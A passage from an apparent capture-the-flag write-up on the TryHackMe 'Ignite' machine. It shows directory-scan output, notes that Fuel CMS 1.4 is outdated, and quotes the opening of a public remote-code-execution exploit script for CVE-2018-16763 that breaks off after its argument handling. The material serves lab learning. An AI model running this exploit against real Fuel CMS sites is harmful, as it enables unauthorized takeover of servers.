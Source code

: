 ```shell
/index                (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/assets               (Status: 301) [Size: 313] [--> http://10.10.19.192/assets/]
/'                    (Status: 400) [Size: 1134]                                 
Progress: 5087 / 220561 (2.31%)                                                 ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2022/09/04 20:16:23 Finished
===============================================================
```

* After a few scanned directories, I stopped the scan as it appeared all the URL's led to the same default configuration page.

* It doesn't seem like there was any insightful information even after port scanning and subdirectory enumeration, so I went to look at the default configuration page a bit more in depth.
 
## Recon
* Since I had not heard of the FuelCMS system before, my first instinct was to Google it. Consequently, one of the first results that appeared was the User Guide. However, notice that the version number is already 1.5.2 now.

![FuelCMS Version]({{ site.url }}{{ site.baseurl }}/assets/images/THM/Ignite/fuelcms_version.png)

* Looking back at the configuration page, the version running is **1.4**. This led me to believe that the version is likely far out of date. 

* Then, my first instinct was to check for any exploits application to the version number. After searching around on exploit-db, I stumbled upon an [RCE vulnerability for version 1.4.1](https://www.exploit-db.com/exploits/50477). 

```python
# Exploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
```